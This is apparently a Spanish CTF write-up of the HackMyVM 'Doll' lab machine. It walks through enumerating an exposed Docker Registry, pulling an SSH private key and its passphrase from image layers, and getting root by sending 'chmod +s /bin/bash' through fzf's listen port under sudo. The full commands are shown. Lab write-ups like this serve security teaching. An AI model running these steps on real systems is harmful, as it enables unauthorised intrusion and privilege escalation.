 ```yaml
---
layout: post
title: Doll
date: 2023-05-20
author: BlackCage
categories: [HackMyVM]
tags: [HMV, Docker Registry, SSH]
---
```


# Doll [ Hack My VM ]
![light mode only](/assets/img/imgs/doll/logo.jpg){: .light }
![dark mode only](/assets/img/imgs/doll/logo_black.png){: .dark }

# Reconocimiento
### NMAP
```
# Nmap 7.93 scan initiated Sat May 20 14:02:11 2023 as: nmap -sCV -p22,1007 -oN targeted 192.168.1.112
Nmap scan report for 192.168.1.112
Host is up (0.00065s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 d732ac404ba84166d3d811496ceded4b (RSA)
|   256 810e67f8c3d2501e4d092a5811c8d495 (ECDSA)
|_  256 0dc37c540b9d3132f2d909d3eded93cd (ED25519)
1007/tcp open  http    Docker Registry (API: 2.0)
|_http-title: Site doesn't have a title.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat May 20 14:03:02 2023 -- 1 IP address (1 host up) scanned in 50.60 seconds
```

Vemos que el puerto `22` está abierto, pero no tenemos ningún usuaio para poder conectarnos.

### Inspección
Como anteriormente hemos visto, **NMAP** nos ha reportado un puerto algo extraño, vamos a buscar más información sobre `Docker Registry`.

Tras hacer una búsqueda me encontré con un artículo de [**`HackTricks`**](https://book.hacktricks.xyz/network-services-pentesting/5000-pentesting-docker-registry), aquí explica paso a paso cómo listar los `Dockers` disponibles en el caso de que sea público.

Para comenzar tendremos que dirigirnos a la siguiente `URL`: `http://192.168.1.112/v2/_catalog`.

Nos debería aparecer lo siguiente:

![catalog](/assets/img/imgs/doll/catalog.png)

Vemos que solo existe un imagen, esto nos hará más fácil la explotación.

Bien, una vez tengamos estos datos podemos hacer una petición con `cURL` al siguiente **`endpoint`**: `/v2/dolly/manifests/latest`:

```sh
┌──(root㉿kali)-[~/…/VMs/HMV/Doll/]
└─# curl http://192.168.1.112:1007/v2/dolly/manifests/latest      
{
   "schemaVersion": 1,
   "name": "dolly",
   "tag": "latest",
   "architecture": "amd64",
   "fsLayers": [
      {
         "blobSum": "sha256:5f8746267271592fd43ed8a2c03cee11a14f28793f79c0fc4ef8066dac02e017"
      },
    [..]
   ],
   "history": [
      {
         [...]
      },
      {
         "v1Compatibility": "{\"id\":\"1430f49318669ee82715886522a2f56cd3727cbb7cb93a4a753512e2ca964a15\",\"parent\":\"638e8754ced32813bcceecce2d2447a00c23f68c21ff2d7d125e40f1e65f1a89\",\"comment\":\"buildkit.dockerfile.v0\",\"created\":\"2023-03-29T18:19:24.45578926Z\",\"container_config\":{\"Cmd\":[\"ARG passwd=devilcollectsit\"]},\"throwaway\":true}"
      },
   [...]
}
```

Vemos bastante información, pero entre todo aquel cúmulo de letras veremos la siguiente línea: `passwd=devilcollectsit`, tal vez ahora no nos haga falta, pero será de vital importancia.

¡Bien! Tenemos una contraseña e información importante, vamos a ver qué podemos hacer.

# Movimiento Lateral
### Shell
Para el siguiente paso utilizaremos la información extraída anteriormente.

Como habréis visto en la respuesta `JSON` anterior, tenemos varios `BlobSums`, vamos a descarganos el primer **`Blob`**:

```sh
┌──(root㉿kali)-[~/…/VMs/HMV/Doll/exploits]
└─# curl http://192.168.1.112:1007/v2/dolly/blobs/sha256:5f8746267271592fd43ed8a2c03cee11a14f28793f79c0fc4ef8066dac02e017 --output blob.tar

┌──(root㉿kali)-[~/…/VMs/HMV/Doll/exploits]
└─# ls -la
total 12
drwxr-xr-x 2 root root 4096 May 20 15:08 .
drwxr-xr-x 6 root root 4096 May 20 14:26 ..
-rw-r--r-- 1 root root 3707 May 20 15:08 blob.tar
```

Vamos a descomprimirlo, para ello utilizaremos la herramienta **`TAR`**:

```sh
┌──(root㉿kali)-[~/…/VMs/HMV/Doll/exploits]
└─# tar -xf blob.tar

┌──(root㉿kali)-[~/…/VMs/HMV/Doll/exploits]
└─# ls -la
total 24
drwxr-xr-x 5 root root 4096 May 20 15:09 .
drwxr-xr-x 6 root root 4096 May 20 14:26 ..
-rw-r--r-- 1 root root 3707 May 20 15:08 blob.tar
drwxr-xr-x 2 root root 4096 Apr 25 04:52 etc
drwxr-xr-x 3 root root 4096 Apr 25 04:52 home
drwx------ 2 root root 4096 Apr 25 04:52 root
```

Vemos varias carpetas, pero la que nos interesa es la carpeta `home`, si nos adentramos veremos que hay una subcarpeta con el nombre de un usuario, `bela`.

Si continuamos investigando veremos que dentro de su directorio personal tiene la carpeta `.ssh`, vamos a ver qué tiene dentro:

```sh
┌──(root㉿kali)-[~/…/Doll/exploits/home/bela]
└─# ls -la
total 16
drwxr-sr-x 3 kali kali 4096 Apr 25 04:53 .
drwxr-xr-x 3 root root 4096 Apr 25 04:52 ..
-rw------- 1 kali kali   57 Apr 25 04:53 .ash_history
drwxr-sr-x 2 kali kali 4096 Apr 25 04:53 .ssh
-rwxr-xr-x 1 kali kali    0 Dec 31  1969 .wh..wh..opq
                                                                                                                                       
┌──(root㉿kali)-[~/…/Doll/exploits/home/bela]
└─# cd .ssh 
                                                                                                                                       
┌──(root㉿kali)-[~/…/exploits/home/bela/.ssh]
└─# ls -la
total 12
drwxr-sr-x 2 kali kali 4096 Apr 25 04:53 .
drwxr-sr-x 3 kali kali 4096 Apr 25 04:53 ..
-rw-r--r-- 1 kali kali 2635 Apr 25 04:53 id_rsa
```

¡Wow! Tenemos la clave `RSA` privada de `Bela`, démosle permisos y accedamos:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Doll]
└─# chmod 600 bela.id_rsa

┌──(root㉿kali)-[~/Desktop/VMs/HMV/Doll]
└─# ssh -i bela.id_rsa bela@192.168.1.112                       
Enter passphrase for key 'bela.id_rsa': 
```

Vemos que nos pide una clave de acceso, por suerte recordamos la contraseña antes encontrada y la probamos:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Doll]
└─# ssh -i bela.id_rsa bela@192.168.1.112
Enter passphrase for key 'bela.id_rsa': devilcollectsit
Linux doll 5.10.0-21-amd64 #1 SMP Debian 5.10.162-1 (2023-01-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat May 20 21:14:59 2023 from 192.168.1.106
bela@doll:~$
```

¡Estupendo! Ya estamos como `Bela` en la máquina.

### Subida de privilegios
Para conseguir el **control total** de la máquina comencé por mirar los permisos que disponía en la máquina con `sudo -l`:

```sh
bela@doll:~$ sudo -l
Matching Defaults entries for bela on doll:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User bela may run the following commands on doll:
    (ALL) NOPASSWD: /usr/bin/fzf --listen\=1337
```

Vemos que podemos ejecutar como cualquier usuario y sin contraseña (es decir, como `root`) el binario `FZF` con el argumento `--listen=1337`, vamos a ver qué es lo que hace esta opción.

Para ello me miré el [manual](https://man.archlinux.org/man/fzf.1.en#listen_=HTTP_PORT_) del comando. Tras haber leído su funcionamiento podemos comenzazr con la explotación.

Para ello comenzaremos por traernos el puerto `1337` a nuestra máquina, para ello podemos utilizar el argumento **`-L`** de **`SSH`**:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Doll]
└─# ssh -i bela.id_rsa bela@192.168.1.112 -L 1337:127.0.0.1:1337
```

Ahora tendremos en nuestra máquina el puerto `1337`, esto nos servirá para enviar una petición **`POST`** con argumentos, en el manual ponen un ejemplo.

Para poder seguir con la explotación debemos ejecutar el binario como `root`:

```sh
bela@doll:~$ sudo /usr/bin/fzf --listen=1337
```

Una vez tengamos el binario ejecutado ya está todo listo para obtener el **control total** de la máquina, para ello nos falta enviar la siguiente petición **`POST`** mediante **`cURL`**:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Doll]
└─# curl -X POST 127.0.0.1:1337 -d 'execute(chmod +s /bin/bash)'
```

Si vemos nuevos permisos de **`Bash`** nos debería salir lo siguiente:

```sh
bela@doll:~$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1234376 mar 27  2022 /bin/bash
```

Como vemos ahora podemos ejecutar el binario con los permisos de `root`, es decir, nos podemos convertir en `root` haciendo lo siguiente:

```sh
bela@doll:~$ bash -p
bash-5.1#
```

¡Enhorabuena! Hemos conseguido tener el **control total** de la máquina. ¡Qué fácil!
